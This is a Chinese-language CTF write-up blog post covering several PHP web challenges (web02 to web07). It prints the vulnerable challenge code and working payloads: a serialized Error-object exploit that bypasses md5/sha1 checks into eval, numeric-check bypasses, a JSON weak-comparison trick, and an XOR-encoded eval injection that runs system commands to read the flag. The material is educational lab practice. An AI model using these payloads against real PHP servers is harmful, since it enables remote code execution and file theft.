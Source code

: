 ```yaml
---
layout:    post
title:     第三周
subtitle:  学习学习
date:      2021-08-12
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:
    - CTF
---
```


### web02

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;
    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("不对 !!");
           }
           
        }
    }
}

if (isset($_GET['niu_niu.gan'])){
    unserialize($_GET['niu_niu.gan']);
} else {
    highlight_file(__FILE__);
}
?>
```

利用Error类绕过md5和sha1检测，Error类中有``__toString``方法，做字符串处理时就会调用这个函数，md5()和sha1()函数都会调用``__toString()``，例如：

[![fzbibF.png](https://z3.ax1x.com/2021/08/22/fzbibF.png)](https://imgtu.com/i/fzbibF)

**注意：** $a和$b要在同一行，不然md5和sha1后不相等，定义是要在同一行，因为报错的打印出来的包括错误行数。

我们可以将题目中的$syc和$lover分别声明为类似上方的内置类对象，来绕过。因为题目过滤了括号，无法调用函数，所以我们用``include "/flag"``将flag包含进来，引号用url取反绕过。

最终exp:

```php
<?php

$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
$a=new Error($str,1);$b=new Error($str,2);

class SYCLOVER {
	public $syc;
	public $lover;
}

$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;

echo urlencode(serialize($c));
?>
```



### web03

```php
 <?php
//flag in fl0gd.php
error_reporting(0);
highlight_file(__FILE__);
$yutu = $_GET['y'];
function rongyao($a){
    return preg_replace('/php|phtml|flag|/i','',$a);
}
if($_COOKIE){
    unset($_COOKIE);
}

$_ABC["xiaqing"] = 'xiaqing';
$_ABC["qjj"]=$yutu;

extract($_POST);

if(!$_GET['photo']){
    $_ABC['photo'] = base64_encode('photo.png');
}else{
    $_ABC['photo'] = md5(base64_encode($_GET['photo']));
}

$serialize = rongyao(serialize($_ABC));

if($yutu=='qiaojingjing'){
    echo 'you are my rongyao~~';
}else if($yutu=='show_photo'){
    $phpinfo = unserialize($serialize);
    echo file_get_contents(base64_decode($phpinfo['photo']));
} 
```



### web05

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
require __DIR__.'/lib.php';
if(isset($_GET['time'])){
    if(!is_numeric($_GET['time'])){
        echo 'The time must be number.';
    }else if($_GET['time'] < 60 * 60 * 24 * 30 * 2){
        echo 'This time is too short.';
    }else if($_GET['time'] > 60 * 60 * 24 * 30 * 3){
        echo 'This time is too long.';
    }else{
        sleep((int)$_GET['time']);
        echo $flag1;
    }
    echo '<hr>';
} 
```

这里用is_numeric检查是否为数字，而后面用(int)将字符型数字转为数字型数字，那么我们来比较一下这两个函数对字符型数字的处理。
前者支持普通数字型、科学记数法型、部分支持十六进制0x型，在前者支持的形式中，后者不能正确转换的类型有十六进制型、科学计数法型（部分）。
因此我们可以使用十六进制或科学计数法来绕过，如``?time=5.184001e6``

访问robots.txt得到：``index.php lib.php part.php part.txt``

访问part.txt得到：

```php
$_403 = "Access Denied";
$_200 = "Welcome Admin";
if ($_SERVER["REQUEST_METHOD"] != "POST")
    die("BugsBunnyCTF is here :p...");
if ( !isset($_POST["flag"]) )
    die($_403);
foreach ($_GET as $key => $value)
    $$key = $$value;
foreach ($_POST as $key => $value)
    $$key = $value;
if ( $_POST["flag"] !== $flag )
    die($_403);
echo "This is your flag : ". $flag2 . "\n";
die($_200);
```

这个有问题，只要给flag传参即可得到flag。

正确解法应该是：利用第一个foreach先将$flag的值赋给``$_200``，然后利用``die($_200)``将原本的flag值打印出来。

### web06

进入后是一个2048游戏，查看源码，再去看js源码，找到phpisbest.php提示，去访问：

```php
<?php 
show_source(__FILE__);
@include_once 'flag.php';
//phpisbest language
    $a = $_GET['a'];
    $b = $_GET['b'];
    $good = false;
    if (sha1($a)===sha1($b)) {
        $good = true;
    }
    else die('bypass');
    if ($good && isset($_GET['key'])){
        $message = json_decode($_GET['key']);
        if ($message->key==$key) {
            echo $flag;
        }    
        else die('flag is coming!');
    }

?>
```

a和b取一样，key采用json弱比较，所以给他赋值为0即可：

```
?a=1&b=1&key={"key":0}
```



### web07

进入后一个phpinfo页面，访问robots.txt得到提示，``?use1``，访问得到：

```php
 <?php


include"flag.php";
if(isset($_GET['use1'])){
    show_source(__FILE__);
    $v1 = (String)$_GET['use1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}else{
    phpinfo();
} 
```

``/^\W+$/``的意思：匹配``[^a-zA-Z0-9_]``（任意个非单词字符、非数字字母下划线的字符）。

$v1$v3$v2绕过利用php特性，数字和命令进行一些运算，如``1-phpinfo();``是可以执行phpinfo()命令的。如：``eval("1-system("cat flag.txt");");``。(不一定是减号，还有加、乘、除号，若用加号，要进行URL编码，这是个特殊字符，不进行编码会当作空格)

所以我们构造出``1-phpinfo()-1``这种格式即可，也就是``v1=1&v2=1&v3=-system("tac f*")-``，然后用取反绕过正则。得到：

```
("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%01%06%02"^"%7f%60%60%21%60%28")
```

最后的payload：

```
?use1=1&v2=1&v3=-("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%01%06%02"^"%7f%60%60%21%60%28")-
```

